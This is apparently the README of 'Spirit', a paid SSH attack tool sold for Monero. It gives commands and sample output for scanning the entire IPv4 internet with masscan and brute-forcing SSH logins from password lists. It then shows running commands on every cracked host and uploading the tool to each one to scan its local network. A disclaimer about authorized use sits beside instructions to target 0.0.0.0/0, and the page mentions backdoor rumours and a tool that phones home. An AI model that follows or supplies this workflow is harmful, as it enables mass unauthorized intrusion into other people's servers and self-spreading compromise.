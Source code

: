 # Spirit - Network Pentest Tools

### [Download the latest Spirit release](https://github.com/theaog/spirit/releases)
```bash
$ wget https://github.com/theaog/spirit/releases/download/1.30/spirit.tgz
$ curl -OL https://github.com/theaog/spirit/releases/download/1.30/spirit.tgz
```
> NOTE: Plenty of fake Spirit clones are being distributed, make sure to verify you're running the original by checksum: `$ sha256sum -c spirit.sum`

> [`$ ./spirit --help`](./HELP) shows you all the included tools. \
Most commands have subcommands `./spirit <command> --help`

## Demo
[![asciicast](https://asciinema.org/a/645079.svg)](https://asciinema.org/a/645079?autoplay=true&loop=true)

## Quick Start
```bash
# download spirit
wget https://github.com/theaog/spirit/releases/download/1.30/spirit.tgz
# unpack spirit
tar xvf spirit.tgz
./spirit --help

# install masscan
sudo apt install masscan
# copy masscan into your current working directory
cp `which masscan` .

# start the show! <class-A> <port1,port2,port3> <speed> 
# ./spirit ports generates 3 random ports 1-65535 and keeps track of
# already generated port numbers in ports.lst
./go.sh 172 $(./spirit ports) 50000
```

## Upgrade Spirit automaticaly
```bash
./spirit upgrade
Upgrading 87% [========================>     ] (5.9/5.9 MB, 49.652 MB/s)
```

## Support
- [GitHub Issue](https://github.com/theaog/spirit/issues/new)
- [Telegram](https://t.me/pentestspirit)

## Example usage for SSH brute flow TLDR;
```bash
# First scan your network or the internet (check disclaimer) to acquire a list of open ports.
$ masscan \
    --rate="50000" \
    --ports "22,222,2222,2212" 0.0.0.0/0 \
    --exclude 255.255.255.255 \
    -oG open.lst
Scanning 4294967295 hosts [4 ports/host]
# masscan will create an open.lst file in oG (output Greppable) format.

# Parse this open.lst to format the data, so that spirit can understand it.
$ ./spirit parse
INFO created h.lst in HOST:PORT format

# Optional: create a filter.lst file if you want to skip certain SSH versions.
$ cat >filter.lst<< EOF
SSH-1.0
SSH-2.0-CISCO
SSH-2.0-Comware
EOF

# Grab SSH banners to make sure your target version is running on the host. NOTE: Makes a backup of h.lst to h.lst.bak
$ ./spirit banner
INFO backing up h.lst to h.lst.bak
SSH-2.0-OpenSSH_8.2p  13% [=>                  ] [11s:1m15s]
INFO created h.lst in HOST:PORT:BANNER format
head -n1 h.lst
100.100.100.100:2222:SSH-2.0-OpenSSH_6.6.1

# Add a password list, spirit will automatically load user:pass from a p.lst file.
# NOTE: if p.lst is not present, Spirit uses an internal passfile
$ cat > p.lst << EOF
user1:pass1
user1:pass2
user2:pass50
EOF

# Start bruting...
$ ./spirit brute
INFO loaded h.lst with 26803 hosts
INFO loaded p.lst with 4881 logins
[2478/4653]root:!1qwerty [77]found [33]blocked [1284]threads 20% [====>               ] [20s:1h13m36s]
failed connections statistics:
(    7)  ssh: closed network connection 30s timeout
(    7)  total failed
results stored in:
- found.ssh # for quick manual connect
- found.login # user:pass combinations that worked
- found.lst # used by `spirit auto-ssh` for connecting en-masse
[26803]hosts [4000]bruted [3000]found [19803]blocked

# Connect to all your found hosts automatically & run commands.
$ ./spirit auto-ssh --command 'whoami && uptime'
# Upload spirit to all hosts and scan the LAN
$ ./spirit auto-ssh --upload ./spirit --command '/tmp/spirit scan --lan'
```


## Spirit is Free (sorta)
Scanning port 22 is unlimited, any other port requires a license.

## You can unlock Spirit's full functionality directly from the CLI by obtaining a license.
```bash
$ ./spirit buy
Monero only, you can convert other crypto assets to XMR on https://tradeogre.com
If you have any issue w/ the payment-flow, contact us https://github.com/theaog/spirit/issues
? Select your Spirit version::
  ▸ Basic TRIAL $10 (3 days) [1 Server]
    Basic $100 (30 days) [3 Servers]
    Pro $200 (30 days) [7 Servers]
    Ultra $500 (30 days) [15 Servers]
    Referral code
```

# Support our development
## Monero (XMR) thank you! (our favorite)
`895LJnKcfTv7NHf7SN1zz5UzhBRwwvdR8NYLvXNr54jJ3GXghBoyfBKLp2dL4GcYohQatRnigct8zgK6utkjjeBxVNsky1s`

![xmrqr](asset/xmrqr.png)

## Bitcoin (BTC) thank you too!
`bc1q7plm79dgllrhrjz772x4vjrtvu9yy03738psy5`

## Get Help & Support
Open a Github [issue](https://github.com/theaog/spirit/issues) and consider encrypting your message using this pub key [aog.gpg](asset/aog.gpg).

Don't forget to give us a Star!

> NOTICE: rumors have been circulating that `spirit` contains a backdoor -- that's not true, we would never do that. We offer a bounty of 50XMR to whomever opens an issue in this repo and provides undeniable proof of the "alleged" backdoor.

Spirit is clean software the only data it sends home is your machine-id to verify the license.

# Disclaimer

This tool should be used for authorized penetration testing and/or educational purposes only.
Any misuse of this software will not be the responsibility of the author or of any other collaborator.
Use it on your own systems and/or with the system owner's permission.

Usage of any tools in this repository for attacking targets without prior mutual consent is illegal.
It is the end user’s responsibility to obey all applicable local, state and federal laws.
We assume no liability and are not responsible for any misuse or damage caused.
